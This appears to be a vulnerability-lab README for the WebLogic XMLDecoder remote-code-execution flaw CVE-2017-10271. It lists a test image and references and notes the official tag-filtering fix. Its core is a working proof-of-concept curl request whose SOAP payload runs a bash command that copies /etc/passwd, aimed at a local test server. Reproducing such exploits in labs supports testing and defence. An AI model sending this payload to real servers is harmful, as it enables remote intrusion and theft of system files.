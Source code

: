 ### CVE-2017-10271 - java.beans.XMLDecoder RCE

测试镜像

* src/weblogic/10.3.6/

参考资料 

* [c0mmand3rOpSec/CVE-2017-10271 - weblogic exploit](https://github.com/c0mmand3rOpSec/CVE-2017-10271)
* [Weblogic XMLDecoder RCE分析](http://xxlegend.com/2017/12/22/Weblogic%20CVE-2017-10271%20XMLDecoder%20RCE%E5%88%86%E6%9E%90/)

Poc

```
curl http://127.0.0.1:7011/wls-wsat/CoordinatorPortType -H 'Content-Type: text/xml' --data '<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/"><soapenv:Header><work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/"><java version="1.8.0_151" class="java.beans.XMLDecoder"><void class="java.lang.ProcessBuilder"><array class="java.lang.String" length="3"><void index="0"><string>bash</string></void><void index="1"><string>-c</string></void><void index="2"><string>cp /etc/passwd /tmp/hacked</string></void></array><void method="start"/></void></java></work:WorkContext></soapenv:Header><soapenv:Body/></soapenv:Envelope>'
```

官方修复方式

* 过滤了 object, new, void, method 等标签

